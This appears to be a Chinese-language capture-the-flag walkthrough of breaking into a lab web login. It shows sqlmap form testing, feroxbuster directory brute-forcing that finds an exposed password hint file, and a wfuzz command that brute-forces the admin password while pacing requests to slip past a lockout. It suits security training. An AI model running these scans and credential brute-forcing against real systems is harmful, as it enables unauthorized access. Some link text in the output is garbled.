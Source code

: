 index.php

index.html 显示的是登录页面，而 index.php 显示的是登录表单。如果这是一张表格，那么我们可以检查这张表格是否暴露在 SQL 注入面前。

```
# sqlmap --forms --url http://10.10.X.X/index.php --random-agent --risk=3
```

不幸的是，它不容易受到 SQL 注入的攻击。但是，没关系，如果有任何隐藏路径，我们可以尝试暴力目录路径。由于同一个索引页面有多个扩展，我们需要在路径发现中包括扩展。使用`feroxbuster`，

```
# feroxbuster -w ~/1gb_dict.txt -t 60 --url http://10.10.X.X/ -x txt,php,html -C 403,301,302
...
200        3l        3w       54c [http://10.10.X.X/logout.php](http://10.10.232.200/logout.php)
200       45l      123w     2334c [http://10.10.X.X/register.php](http://10.10.232.200/register.php)
200       46l      126w     2372c [http://10.10.](http://10.10.232.200/index.php)[X.X](http://10.10.232.200/register.php)[/index.php](http://10.10.232.200/index.php)
200       23l       55w      503c [http://10.10.](http://10.10.232.200/index.html)[X.X](http://10.10.232.200/register.php)[/index.html](http://10.10.232.200/index.html)
**200        3l       21w      121c** [**http://10.10.**](http://10.10.232.200/note.txt)[**X.X**](http://10.10.232.200/register.php)[**/note.txt**](http://10.10.232.200/note.txt) **200        5l       21w      112c** [**http://10.10.X.X/~files/pass.txt**](http://10.10.232.200/~files/pass.txt)
[#######] - 17m  1494744/1494744 0s      found:6       errors:187
[#######] - 9m    249124/249124  459/s   [http://10.10.232.200/](http://10.10.232.200/)
[#######] - 8m    249124/249124  462/s   http://10.10.232.200/~files
```

找到 6 个可用的页面，有奇怪的路径。打开它，

```
Message from **admin** :-

I can't remember my password always , that's why I have saved it in **/home/files/pass.txt** file .
```

注意到“admin”将其密码存储在特定的文件`**/home/files/pass.txt**`中。可能有一些页面暴露于 LFI 或 RFI。但是还有另一条路`**~files/pass.txt**`。

```
Admin password hint :-

**admin__admin**

" __ means two numbers are there , this hint is enough I think :) "
```

现在我们有了管理员用户的凭证

```
username: Admin
password: adminXXadmin
```

登录页面在 3 次尝试登录后有 60 秒的限制锁定。通过对 XX 值使用模糊化方法，

```
# wfuzz -c -z range,00-99 -d "username=admin&password=admin**FUZZ**admin&submit=Submit" -X POST -u http://10.10.X.X/index.php -t 1 -s 20
...
...
000000042:   200        46 L     135 W      2428 Ch     "41"
000000043:   200        46 L     135 W      2428 Ch     "42"
000000044:   200        46 L     135 W      2428 Ch     "43"
**000000045:   200        49 L     XXX W      2445 Ch     "XX"**
000000046:   200        46 L     132 W      2430 Ch     "45"
000000047:   200        46 L     132 W      2430 Ch     "46"
000000048:   200        46 L     135 W      2428 Ch     "47"
000000049:   200        46 L     135 W      2428 Ch     "48"
000000050:   200        46 L     135 W      2428 Ch     "49"
....
```